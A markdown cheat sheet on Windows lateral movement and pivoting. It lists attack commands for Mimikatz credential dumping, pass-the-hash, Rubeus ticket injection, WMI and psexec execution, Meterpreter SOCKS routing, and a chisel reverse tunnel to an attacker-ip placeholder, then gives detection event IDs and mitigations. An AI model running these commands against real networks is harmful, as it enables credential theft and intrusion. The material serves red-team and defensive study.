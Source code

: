  
## 📚 Table of Contents

  

1. [Introduction](#introduction)
2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)
    - [Using Credential Dumping](#using-credential-dumping)
    - [Pass-the-Hash](#pass-the-hash)
    - [Pass-the-Ticket](#pass-the-ticket)
    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)
    - [WMI & WinRM Execution](#wmi--winrm-execution)
    - [PsExec & SMB](#psexec--smb)
3. [Pivoting Through Compromised Hosts](#pivoting-through-compromised-hosts)
    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)
    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)
    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)
4. [Detecting Lateral Movement](#detecting-lateral-movement)
5. [Mitigations & Best Practices](#mitigations-best-practices)
6. [Conclusion](#conclusion)

  ---

## Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```
mimikatz.exe
```

```
sekurlsa::logonpasswords
```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH
```

```
Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```
mimikatz # kerberos::ptt ticket.kirbi
```
  
### WMI & WinRM Execution

```
Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

```
evil-winrm -i 10.10.10.10 -u user -p password
```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16
```

```
meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```

## Detecting Lateral Movement

Detection strategies include:

- Monitoring Authentication Logs — Look for unusual logins, logon types, or accounts accessing multiple systems in short time spans.

- Windows Event IDs —    
    - 4624 (Successful logon) — check for anomalies
    - 4625 (Failed logon attempts) — brute-force indicators        
    - 4769 (Kerberos service ticket request) — possible PtT
- Network Traffic Analysis — Identify unusual SMB, RDP, or WinRM activity.
- Honeypots — Deploy decoy credentials or hosts to detect unauthorized movement.

---
## Mitigations & Best Practices

- Enforce Multi-Factor Authentication (MFA) for privileged accounts.
- Limit Lateral Movement Paths — Segment networks and apply least privilege.
- Disable Legacy Protocols like SMBv1 and NTLM where possible.
- Patch Regularly to prevent exploitation of known vulnerabilities.
- Use Credential Guard / LSASS Protection to prevent credential dumping.
- Implement Monitoring & Alerting — SIEM rules for unusual account usage.

---
## Conclusion

Lateral movement is a key phase in post-exploitation that allows attackers to expand access and target critical assets. Understanding the techniques, being able to detect them, and applying strong mitigations is essential for reducing risk. Combining **proactive defense** with **continuous monitoring** will significantly improve resilience against these threats.
